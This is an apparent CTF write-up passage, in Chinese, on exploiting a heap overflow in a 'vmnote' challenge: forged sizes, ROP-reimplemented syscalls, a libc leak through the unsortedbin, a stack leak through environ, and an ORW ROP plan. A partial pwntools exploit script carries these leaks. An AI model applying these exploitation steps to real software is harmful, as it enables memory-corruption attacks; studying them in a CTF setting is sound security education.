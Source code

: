 ### 堆部分

堆的漏洞主要是在edit的时候伪造size实现堆溢出, 

但是在vm内并没办法使用完整功能, 限制也比较多, 我们可以rop以后, 可以使用rop重写一下几个syscall, 得到完整的功能

然后思路大体就是, 借助堆溢出, 修改vmnote中单向链表中的node, 基本可以实现一个任意地址读写, 通过unsortedbin的大堆块泄漏libc, 然后打印environ地址,得到栈地址, 通过libc中的syscall ret完成orw的rop, 

```python
def exp2():
    payload  = rop([pop, chunk_list, 0, printf], 0)
    sl(payload)
    recv()
    heap = u64(re(6, 2).ljust(8, b'\x00'))
    heap = heap - 0x480
    print(hex(heap))
    
    heap1 = heap + 0x480 
    heap2 = heap + 0x4d0

    
    def my_new(size):
        sl(rop([pop, size, 0, syscall3], 0))

    def my_dele(ptr):
        sl(rop([pop, ptr, 0, syscall4], 0))

    def my_show(ptr):
        sl(rop([pop, ptr, 0, syscall7], 0))
    
    def my_edit(ptr, size):
        sl(rop([pop, ptr, size, syscall6], 0))

    my_new(0x500)
    heap3 = heap + 0x520
    my_dele(heap3)

    my_edit(heap1, 0x100000004)
    payload = flat('a' * 0x20, 0, 0x21, heap3, 0x1000)
    sl(payload)

    my_show(heap3)
    ru("ontent: ")
    main_aeran = u64(re(6, 2).ljust(8, b'\x00'))
    print(hex(main_aeran))
    LIBC = main_aeran - 0x1ebbe0
    print("libc: " + hex(LIBC))
    libc = ELF("./libc.so.6")
    env = libc.sym['environ'] + LIBC 


    my_edit(heap2, 0x100000004)
    payload = flat('a' * 0x20, 0, 0x21, env, 0x1000)
    sl(payload)
    my_show(env)
    ru("ontent: ")
    stack = u64(re(6, 2).ljust(8, b'\x00'))
    print(hex(stack))

    stack = stack - 0x140 

    my_new(0x30)
    heap4 = heap3

```